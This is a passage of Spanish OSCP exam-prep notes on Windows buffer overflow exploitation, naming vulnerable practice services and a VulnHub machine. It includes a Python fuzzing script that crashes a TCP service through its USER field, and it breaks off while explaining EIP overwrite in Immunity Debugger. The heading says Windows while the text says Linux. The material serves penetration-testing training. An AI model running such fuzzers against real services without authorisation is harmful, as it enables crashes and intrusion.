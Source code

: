 # Apuntes de Preparación para el OSCP

![OSCP Image](http://funkyimg.com/i/2MPB4.png)
#### Penetration Testing with Kali Linux (PWK) course and Offensive Security Certified Professional (OSCP) Cheat Sheet

## Índice y Estructura Principal
- [Buffer Overflow Windows (25 puntos)](#Buffer-Overflow-Windows)

Buffer Overflow Windows
===============================================================================================================================
A continuación, se listan los pasos a seguir para la correcta explotación de Buffer Overflow en Linux (32 bits). Para la examinación, no se requieren de conocimientos avanzados de exploiting en BoF (bypassing ASLR, etc.), basta con practicar con servicios básicos y llevar esa misma metodología al examen.

Servicios/Máquinas con los que practicar:

-   SLMail 5.5 
-   Minishare 1.4.1
-   Máquina Brainpan de VulnHub
-   Los 2 binarios personalizados compartidos en la máquina Windows personal del laboratorio

Generalmente, la metodología a seguir es la siguiente:

-   Fuzzing

Para esta fase, es necesario en primer lugar identificar el campo en el que se produce el buffer overflow. Para un caso práctico, suponiendo por ejemplo que un servicio sobre un Host 192.168.1.45 corre bajo el puerto 4000 y que tras la conexión vía TELNET desde nuestra máquina, se nos solicita un campo USER a introducir, podemos elaborar el siguiente script en python con el objetivo de determinar si se produce un desbordamiento de búffer:

```python
#!/usr/bin/python
# coding: utf-8

import sys,socket

if len(sys.argv) != 2:
  print "\nUso: python" + sys.argv[0] + " <dirección-ip>\n"
  sys.exit(0)

buffer = ["A"]
ipAddress = sys.argv[1]

port = 4000
contador = 100

while len(buffer) < 30:
  buffer.append("A"*contador)
  contador += 200
  
for strings in buffer:
  try:
    print "Enviando %s bytes..." % len(strings)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ipAddress, port))
    s.recv(1024)
    s.send("USER " + strings + '\r\n')
    s.recv(1024)
    s.close()
  except:
    print "\nError de conexión...\n"
    sys.exit(0)

```
De esta forma, a través de una lista, vamos almacenando en la variable **buffer** el caracter "A" un total 30 veces con un incremento para cada una de las iteraciones en 200. 

Esto es:

**[1 caracter "A", 100 caracteres "A", 300 caracteres "A", 500 caracteres "A", 700 caracteres "A", ...]**

Mientras tanto, desde _Immunity Debugger_, estando previamente sincronizados con el proceso, deberemos de utilizarlo como debugger para ver en qué momento se produce una violación de segmento.

Cuando esto ocurra, deberíamos ver como el registro **EIP** toma el valor (**41414141**), correspondiente al caracter "A" en hexadecimal
